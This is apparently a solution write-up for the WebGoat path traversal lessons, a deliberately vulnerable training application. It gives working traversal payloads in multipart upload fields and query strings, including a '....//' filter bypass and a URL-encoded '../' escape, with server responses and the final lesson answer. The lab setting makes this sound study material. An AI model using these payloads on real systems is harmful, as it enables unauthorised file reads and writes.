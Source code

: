 # (A1) Path traversal

## Lesson 2
Upload the profile picture outside of the `{username}` folder:
```
-----------------------------27260332916296986533744447080
Content-Disposition: form-data; name="fullName"

../test

```

## Lesson 3
The same as the previous lesson but this time the `fullName` is sanitized.
However, the fix is not perfect: `fullName.replace("../", "")`.
```
-----------------------------22445278214949939952398157170
Content-Disposition: form-data; name="fullNameFix"

....//test
```

## Lesson 4
This time we must modify the original filename:
```
-----------------------------1740053938349190302459631647
Content-Disposition: form-data; name="uploadedFileRemoveUserInput"; filename="../myfile.txt"
Content-Type: text/plain

```

## Lesson 5
Clicking on _Random picture_ sends this request:
```
GET http://vernjan:8080/WebGoat/PathTraversal/random-picture
...

---
HTTP/1.1 200 OK
Connection: keep-alive
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Location: /PathTraversal/random-picture?id=4.jpg
X-Frame-Options: DENY
Content-Type: image/jpeg
Content-Length: 58880
Date: Fri, 03 Apr 2020 07:03:20 GMT
```

Notice the `Location` header. Lets's try to call it:
```
GET http://vernjan:8080/WebGoat/PathTraversal/random-picture?id=4.jpg
...

---
C:\Users\Jan\.webgoat-v8.0.0-SNAPSHOT\PathTraversal\cats\1.jpg,C:\Users\Jan\.webgoat-v8.0.0-SNAPSHOT\PathTraversal\cats\10.jpg,C:\Users\Jan\.webgoat-v8.0.0-SNAPSHOT\PathTraversal\cats\2.jpg,C:\Users\Jan\.webgoat-v8.0.0-SNAPSHOT\PathTraversal\cats\3.jpg,C:\Users\Jan\.webgoat-v8.0.0-SNAPSHOT\PathTraversal\cats\4.jpg,C:\Users\Jan\.webgoat-v8.0.0-SNAPSHOT\PathTraversal\cats\5.jpg,C:\Users\Jan\.webgoat-v8.0.0-SNAPSHOT\PathTraversal\cats\6.jpg,C:\Users\Jan\.webgoat-v8.0.0-SNAPSHOT\PathTraversal\cats\7.jpg,C:\Users\Jan\.webgoat-v8.0.0-SNAPSHOT\PathTraversal\cats\8.jpg,C:\Users\Jan\.webgoat-v8.0.0-SNAPSHOT\PathTraversal\cats\9.jpg
```
We get directory listing back. So let's try to fix the id (i.e. remove the `.jpg` extension):
```
GET http://vernjan:8080/WebGoat/PathTraversal/random-picture?id=4
...

---
HTTP/1.1 200 OK
Connection: keep-alive
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Location: /PathTraversal/random-picture?id=4.jpg
X-Frame-Options: DENY
Content-Type: image/jpeg
Content-Length: 58880
Date: Fri, 03 Apr 2020 07:11:12 GMT

/9j/4AAQSkZJRgABAQEASABIAAD ..
```

We got the image back (base64 encoded).

Now try getting `path-traversal-secret.jpg` (located right under `c:\Users\{user}\.webgoat-v8.0.0-SNAPSHOT\`):
```
GET http://vernjan:8080/WebGoat/PathTraversal/random-picture?id=../../path-traversal-secret
...

---
Illegal characters are not allowed in the query params
```

Ok, let's try escaping:
```
GET http://vernjan:8080/WebGoat/PathTraversal/random-picture?id=%2E%2E%2F%2E%2E%2Fpath-traversal-secret
...

---
You found it submit the SHA-512 hash of your username as answer
```

The last step:
```
$ printf vernjan | sha512sum
4c5aab6d6999943bac2b9e7acca349c0c7fce12761a4798062031a0f40a08a3f4011f3b09915f868fe7966c401316951b7669f5d54d3c67774e3a63c3040c9a6  -
```

